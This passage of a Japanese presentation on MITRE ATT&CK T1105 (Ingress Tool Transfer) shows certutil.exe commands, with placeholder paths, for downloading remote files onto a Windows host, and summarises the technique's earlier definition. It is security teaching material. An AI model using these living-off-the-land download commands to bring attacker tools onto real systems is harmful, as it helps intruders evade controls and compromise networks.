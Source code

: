 ジョブの作成ができるので、ダウンロードに留まらず  
実行なども当然できる。


---

### LOLBinの例5 - certutil.exe
certutil : 証明機関(CA)の構成や管理

**certutil -urlcache**
```cmd
cmd /c certutil -urlcache -split -f {remote_file} {local_path}
```
**certutil -verifyctl**
```ps1
$datePath = "certutil-$(Get-Date -format yyyy_MM_dd)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f {remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination {local_path} }
```


---

# -余談-
# Ingress Tool Transferの前身

---
### Ingress Tool Transferの前身
**T1105**は、MITRE ATT&CK v6.3まで「Remote File Copy」。

**Remote File Copy, Technique T1105 - Enterprise | MITRE ATT&CK®**
https://attack.mitre.org/versions/v6/techniques/T1105/

---
### 「Remote FileCopy」からの変更点

Title | TACTIC
--- | ---
Remote File Copy | Command And Control, <br>Lateral Movement
Ingress Tool Transfer | Command And Control

---
### 「Remote FileCopy」の定義（前半）
    前半はほぼ変わり無し。

> あるシステムから別のシステムへファイルをコピーし、攻撃用ツールやその他のファイルを配置することができる。
ファイルは、攻撃者が制御する外部のシステムからC2チャンネルを介してコピーし、被害者のネットワークにツールを持ち込むか、FTPなどの別のツールを使用した代替プロトコルを介してコピーできる。
scp、rsync、sftpなどのネイティブツールを使用してMacおよびLinuxにファイルをコピーすることもできる。
